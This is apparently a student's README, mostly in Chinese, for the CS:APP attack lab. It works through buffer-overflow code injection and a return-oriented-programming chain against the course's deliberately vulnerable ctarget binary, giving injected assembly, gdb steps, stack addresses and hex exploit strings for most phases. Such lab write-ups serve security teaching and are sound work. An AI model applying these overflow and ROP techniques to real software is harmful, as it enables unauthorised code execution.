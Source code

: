 # INSTRUCTIOJNS of attack lab

## How to use the material

1. Set the executability of hex2raw, ctarget and rtarget with `chmod -R 777 file`
2. Run with -q to avoid `FAILED: Initialization error: Running on an illegal host`
3. How to run in bash? under the folder, `unix> cat exploit.txt | ./hex2raw | ./ctarget -q` or `unix> ./ctarget -qi l1.bin` with l1.bin the output of attack text after `。/hex2raw <l1.txt >l1.bin`
4. look [attacklab.pdf](http://csapp.cs.cmu.edu/3e/attacklab.pdf) for usage
5. 关于farm.c

## Solutions

详见书3.7章 procedure 和3.10章 Combining Control and Data

如果我们直接在bash中输入`./ctarget -q`来运行可执行文件，会发现文件试图获取输入`Type string:`，由此可以猜测ctarget的漏洞在于缺乏对这个字符串缓冲区的保护，我们可以找到这个位置并将攻击代码注入

首先找到getbuf作为字符串缓冲区的入口，发现在test中调用了这个函数.
```s
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   

0000000000401968 <test>:
  401968:	48 83 ec 08          	sub    $0x8,%rsp
  40196c:	b8 00 00 00 00       	mov    $0x0,%eax
  401971:	e8 32 fe ff ff       	callq  4017a8 <getbuf>
  401976:	89 c2                	mov    %eax,%edx
  401978:	be 88 31 40 00       	mov    $0x403188,%esi
  40197d:	bf 01 00 00 00       	mov    $0x1,%edi
  401982:	b8 00 00 00 00       	mov    $0x0,%eax
  401987:	e8 64 f4 ff ff       	callq  400df0 <__printf_chk@plt>
  40198c:	48 83 c4 08          	add    $0x8,%rsp
```

### Attack 1
(Code-injection)

简而言之，attack1的原理就是利用函数getbuf中对于buffer长度没有限制的漏洞，将攻击代码注入可执行文件中

我们希望test中不执行getbuf,而是去执行touch1. 很显然，getbuf将rsp减0x28,也即创建了一个40bytes的buffer size. 在test调用getbuf后,程序计数器PC会调整为getbuf的地址,而将test的地址压入栈,放在getbuf的栈帧的高地址处. 因此我们的攻击代码需要填满缓冲区,然后将touch1的地址覆盖test的地址，这样getbuf后程序将跳转至touch1

顺序问题: 填充从栈帧的低地址位向高处填充,再者需要考虑小端数据的问题(因为机器是从低位开始读取的数据,且地址为64位=16个hex).最后攻击文本如l1.txt所示

Phase 1 switch the return address of test() from 0x1 to touch1()
getbuf() shows that it allows an input string of length 0x28(40), and return at 4017bd. So our goal is to overwrite the stack lower than 0x28.

touch1() is at 4017c0, to invade the part of test(), input with 40 arbitary bytes and c0 17 40 00 (remind the endian order, and return adress of getbuf() is pointed by %rsp, which is just at the end of the function)

### Attack 2
(Code-injection)

文档希望我们插入一些代码,而不只是数据.查看touch2,发现接受一个参数放在rdi,并和cookie比较.同样是覆盖buffer来实现攻击

这次我们不能只是插入touch2的地址来覆盖test(其中getbuf的下一步)的地址,因为这样只能完成跳转而不能完成传参.额外的手段是插入一段代码,而这段代码完成了传参cookie给%rdx和跳转至$4017ec.

通过撰写汇编文件code_2.s
```s
movq    $0x59b997fa, %rdi
pushq   $0x4017ec
ret
```
将其编译再反汇编,得到机器码
```s
Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq   
```
余下的工作就是放好这段代码,并试图让程序跳转至这段代码.

在此之前考虑这段代码的位置.想象栈帧是一个长方形的区域,当输入文本从左向右至上而下被读入,缓冲区的填充是从低地址向高地址,自右向左被填充.而为了方便确定位置,代码注入在文本开头,这样它在缓冲区中会出现在地址最低处,也就是%rsp指向的上方.而跳转代码必须出现在文本末尾,这样它才能覆盖掉处在缓冲区高地址处的return地址.而且代码不需要使用小端序,它的顺序是正常的.

最后找到这段代码插入的位置,也就是在程序执行到getbuf时%rsp的地址,gdb指令如下
```bash
gdb ./ctarget
break getbuf
run -qi l1.bin (此处l1.bin是随意的)
disas (查看是否正确地在getbuf停下,也可以注意到其中对%rsp加0x28的归还栈帧的操作)
stepi (再走一步,进入getbuf,breakpoint在函数入口处,而step只移动到下一个指令)
print /x $rsp
(也可以不step,而用x /64xb $rsp来查看%rsp周围,直接发现首地址,并发现40个字节后出现机器码,说明这确实是缓冲区)
```
最后获取到的%rsp地址为0x5561dc78

注意,这样的攻击是可行的,是因为这部分习题没有开启栈随机化,并且也允许栈执行.
```s
0000000000400df0 <__printf_chk@plt>:
  400df0:	ff 25 ca 32 20 00    	jmpq   *0x2032ca(%rip)        # 6040c0 <__printf_chk@GLIBC_2.3.4>
  400df6:	68 18 00 00 00       	pushq  $0x18
  400dfb:	e9 60 fe ff ff       	jmpq   400c60 <.plt>
```


Phase 2 wants to switch to touch2(), and in the same time input a val==cookie, stored in %edi

So we recover the buffer space and append our attack string. We wrote the assembly code and then dissemble to get the machine code


### Attack 3
touch3要实现的是传入string的ascii匹配, 我们要做的是将正确的ascii放在缓冲区中,并让%rdi获取这个ascii,最后让getbuf跳转回touch3 (0x4018fa)

cookie为 0x59b997fa, 对应ascii的hex表示为35 39 62 39 39 37 66 61 00 (多一位0)

我们依然是将最高位填成缓冲区开头的地址0x5561dc78,使得getbuf结束后回到缓冲区执行接下来的代码

在考虑缓冲区合理边界内的内容.文本中,我们将前两行留给机器码,第三行留给touch3的地址,最后一行留给cookie的ascii表示,这样我们的汇编代码应为
```s
mov $0x5561dc90, %rdi
mov $0x5561dc88, %rsp
ret
```
这里有一个问题.
官方的instruction pdf指出, hexmatch在执行时会改变rdi的位置, 而可以看到hexmatch申请了100字节的空间,这导致了getbuf的栈区一定会被全部覆盖.我们可以将cookie存放在父栈中,在父栈的栈顶之上,也就是0x5561dca8(栈顶要用来获取返回地址,所以不能使用)

### Attack 4
(ROP attack: return-oriented programming)
利用的是奇怪的函数巧妙的复现了某些操作的汇编代码,通过跳转来完成执行. Attack 4 即是用ROP的方法来重新完成level2, 要做的是给%rdi传值并跳转到touch2

但是没有办法完成直接的传值,只能通过将cookie放在栈顶,用`popq R`和`mov R %rdi`组合完成

然后开始找.发现:
```s
00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq  

00000000004019ca <getval_280>:
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  4019cf:	c3                   	retq   

00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq  
```
58 90 c3 的序列编码了
```s
popq %rax
nop
ret
```
而48 89 c7 90 c3 编码了
```s
movq %rax, %rdi
nop
ret
```
(好像两个c3连在一起不会发生什么事情,所以farm中有若干种选择)
缓冲区现在不能执行了(在栈上),所以缓冲区填啥应该关系不大,主要是再更高处分别填充:
```txt
ab 19 40 00 00 00 00 00 # popq %rax 
fa 97 b9 59 00 00 00 00 # cookie （popq的目标）
c5 19 40 00 00 00 00 00 # movq %rax,%rdi
ec 17 40 00 00 00 00 00 # 返回到 touch2
```

### Attack 5
level3是将cookie的ascii在hex下存入%rdi并跳转至touch3

上一问中我们不需要知道栈的具体位置,只需要把需要传进去的内容放在栈顶.但这一问中由于hexmatch将会覆盖整个缓冲区,必须将cookie的ascii放在其父栈上,这就要求我们知道栈的具体位置以及相应的偏移

具体不是很想做了,如果以后再搞起安全相关的再看吧. 据说还有和canary有关的attack6,实在是没兴趣了